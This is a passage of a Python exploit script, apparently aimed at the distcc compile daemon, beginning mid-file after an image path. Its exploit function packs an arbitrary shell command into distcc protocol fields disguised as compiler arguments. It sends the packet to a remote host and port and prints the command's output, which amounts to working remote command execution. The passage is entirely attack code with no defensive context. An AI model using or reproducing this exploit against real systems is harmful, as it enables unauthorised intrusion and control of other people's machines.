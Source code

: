 		return str

	'''
		Read STDERR / STDOUT returned by remote service.
	'''
	def read_std(s):
		s.recv(4) # Ignore

		len = int(s.recv(8), 16) # Get output length

		if len != 0:
			return s.recv(len)

	'''
		Trigger Exploit
	'''
	def exploit(command, host, port):
		args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

		payload = "DIST00000001" + "ARGC%.8x" % len(args)

		for arg in args:
			payload += "ARGV%.8x%s" % (len(arg), arg)

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		socket.setdefaulttimeout(5)
		s.settimeout(5)

		if s.connect_ex((host, port)) == 0:
			print("[\033[32mOK\033[39m] Connected to remote service")
			try:
				s.send(payload)

				dtag = "DOTI0000000A" + rand_text_alphanumeric(10)

				s.send(dtag)			

				s.recv(24)

				print("\n--- BEGIN BUFFER ---\n")
				buff = read_std(s) # STDERR

				if buff:
					print(buff)

				buff = read_std(s) # STDOUT
				if buff:
					print(buff)

				print("\n--- END BUFFER ---\n")

				print("[\033[32mOK\033[39m] Done.")
			except socket.timeout:
				print("[\033[31mKO\033[39m] Socket Timeout")
			except socket.error:
				print("[\033[31mKO\033[39m] Socket Error")
			except Exception:
				print("[\033[31mKO\033[39m] Exception Raised")
			finally:
				s.close()		
		else:
			print("[\033[31mKO\033[39m] Failed to connect to %s on port %d" % (host, port))
